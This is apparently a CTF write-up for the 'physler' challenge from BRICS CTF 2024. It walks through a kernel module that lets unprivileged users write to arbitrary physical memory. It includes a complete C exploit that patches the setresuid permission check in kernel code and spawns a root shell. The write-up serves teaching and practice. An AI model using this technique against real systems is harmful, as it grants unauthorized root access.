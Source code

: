 +++
title = 'physler - BRICS CTF 2024'
date = 2024-10-20T12:18:45+02:00
draft = false
+++

physler was another challenge from BRICS CTF that I solved.
we basically got a kernel module that has two ioctl requests defined:
```c
case IOCTL_MAP_PHYS_ADDR: {
    if (copy_from_user(&_map, (void*)arg, sizeof(_map))) {
        return -EFAULT;
    }

    if (mem)
        iounmap(mem);

    mem = ioremap(_map.phys_addr, _map.size);

    if (!mem) {
        return -EFAULT;
    }
    break;
}
case IOCTL_WRITE_PHYS_MEM: {
    if (!mem)
        return -EFAULT;

    if (copy_from_user(&_write, (void*)arg, sizeof(_write))) {
        return -EFAULT;
    }

    size = _write.size;

    if (size > sizeof(kernel_buffer))
        size = sizeof(kernel_buffer);

    if (copy_from_user(kernel_buffer, (char *)_write.in_data, size))
        return -EFAULT;

    memcpy_toio(mem, kernel_buffer, size);
    break;
}
```

this essentially lets us map any physical address and write arbitrary data to it - all as normal user
since this also bypasses all virtual access protections for pages/memory regions, we can overwrite
kernel code. to get the physical kernel base, we can read `/proc/iomem`:
```
00000000-00000fff : Reserved
00001000-0009fbff : System RAM
0009fc00-0009ffff : Reserved
000a0000-000bffff : PCI Bus 0000:00
000c0000-000c99ff : Video ROM
000ca000-000cadff : Adapter ROM
000cb000-000cb5ff : Adapter ROM
000f0000-000fffff : Reserved
  000f0000-000fffff : System ROM
00100000-05fdffff : System RAM
  01000000-023fffff : Kernel code
  02400000-02b5efff : Kernel rodata
  02c00000-0303327f : Kernel data
  03546000-039fffff : Kernel bss
05fe0000-05ffffff : Reserved
06000000-febfffff : PCI Bus 0000:00
  fd000000-fdffffff : 0000:00:02.0
  feb00000-feb7ffff : 0000:00:03.0
  feb80000-feb9ffff : 0000:00:03.0
  febb0000-febb0fff : 0000:00:02.0
fec00000-fec003ff : IOAPIC 0
fed00000-fed003ff : HPET 0
  fed00000-fed003ff : PNP0103:00
fffc0000-ffffffff : Reserved
100000000-17fffffff : PCI Bus 0000:00
```
to keep to exploit as simple as possible, I decided to patch a syscall of `setuid` family.
I chose `setresuid` since it updates most uid fields in the `cred` struct. it is obvoiulsy
priviliged, since you need `CAP_SETUID` to use it. see the following check in `__sys_setresuid`:
```c
if ((ruid_new || euid_new || suid_new) &&
	    !ns_capable_setid(old->user_ns, CAP_SETUID))
		return -EPERM;
```
this is the only check we need to overcome. if we manage to not take the branch, we can get root.
in disassembly, the relevant part looks like this:
```
0xffffffff8c10e043:	call   0xffffffff8c0fbeb0   # ns_capable_setid
0xffffffff8c10e048:	mov    ecx,DWORD PTR [rbp-0x38]
0xffffffff8c10e04b:	test   al,al
0xffffffff8c10e04d:	je     0xffffffff8c10e1e1 # return -EPERM;
```
normally when trying `setresuid(0, 0, 0)`, `al` will contain `0` and we return `-EPERM`. to bypass that,
we can patch the instruction before `test al,al`, which turned out to be unnecessary anyways.
instead of `mov ecx,DWORD PTR [rbp-0x38]`, I wrote `add eax, 1`, which are both 3 bytes long.
whith that, we don't jump to the return, and we continue in `__sys_setresuid`, which eventually sets our uid to `0`:
```
/ $ ./exp 
uid: 0
/ # 
```
we can read the flag now and solve the challenge. the exploit code is quite simple:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define IOCTL_MAP_PHYS_ADDR 0x1001
#define IOCTL_WRITE_PHYS_MEM 0x3003

struct ioctl_map {
    unsigned long phys_addr;
    unsigned long size;
};

struct ioctl_write {
    unsigned long size;
    unsigned char* in_data;
};

int map_phys(int fd, unsigned long phys_addr, unsigned long size) {
    struct ioctl_map *map = malloc(sizeof(struct ioctl_map));

    map->phys_addr = phys_addr;
    map->size = size;

    int ret = ioctl(fd, IOCTL_MAP_PHYS_ADDR, (void *)map);

    free(map);
    return ret;
}

int write_phys(int fd, unsigned char *data, unsigned long size) {
    struct ioctl_write *write = malloc(sizeof(struct ioctl_write));

    write->size = size;
    write->in_data = malloc(size + 1);
    memcpy(write->in_data, data, size);

    int ret = ioctl(fd, IOCTL_WRITE_PHYS_MEM, (void *)write);

    free(write->in_data);
    free(write);
    return ret;
}

int main() {
    int fd = open("/dev/physler", O_RDWR);

    char payload[0x1000];
    payload[0] = '\x83';
    payload[1] = '\xc0';
    payload[2] = '\x01';

    if(map_phys(fd, 0x1000000+0x10e048, 0x1000) < 0) // setresuid
        return -1;
    if(write_phys(fd, payload, 3))
        return -1;
    
    if(setresuid(0, 0, 0) < 0)
        perror("setresuid");
    
    printf("uid: %d\n", getuid());
    system("/bin/sh");

    return 0;
}
```